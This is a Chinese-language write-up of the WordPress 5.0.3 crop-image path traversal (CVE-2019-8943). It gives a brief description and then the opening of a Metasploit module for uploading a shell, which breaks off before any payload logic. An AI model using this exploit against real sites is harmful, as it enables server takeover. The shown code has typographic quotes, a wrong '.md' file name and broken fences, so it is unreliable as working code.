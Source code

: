```yaml
---
title: "（CVE-2019-8943）WordPress 5.0.3 - Crop-image Shell Upload (Metasploit)"
id: zhfly3263
---
```


# （CVE-2019-8943）WordPress 5.0.3 - Crop-image Shell Upload (Metasploit)

## 一、漏洞简介

WordPress通过5.0.3允许在wp_crop_image（）中进行路径遍历。攻击者（具有裁剪图像的特权）可以通过包含两个图像扩展名和../序列的文件名，例如以.jpg？/../../结尾的文件名，将输出图像写入任意目录。 file.jpg子字符串。

## 二、漏洞影响

## 三、复现过程

保存内容为xxx.md 并放到msf运行的目录下

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote

Rank = ExcellentRanking

include Msf::Exploit::FileDropper

include Msf::Exploit::Remote::HTTP::Wordpress

def initialize(info = {})

super(update_info(

info,

‘Name’            => ‘WordPress Crop-image Shell Upload’,

‘Description’     => %q{

This module exploits a path traversal and a local file inclusion

vulnerability on WordPress versions 5.0.0 and <= 4.9.8.

The crop-image function allows a user, with at least author privileges,

to resize an image and perform a path traversal by changing the _wp_attached_file

reference during the upload. The second part of the exploit will include

this image in the current theme by changing the _wp_page_template attribute

when creating a post.

```
 This exploit module only works for Unix-based systems currently.
  },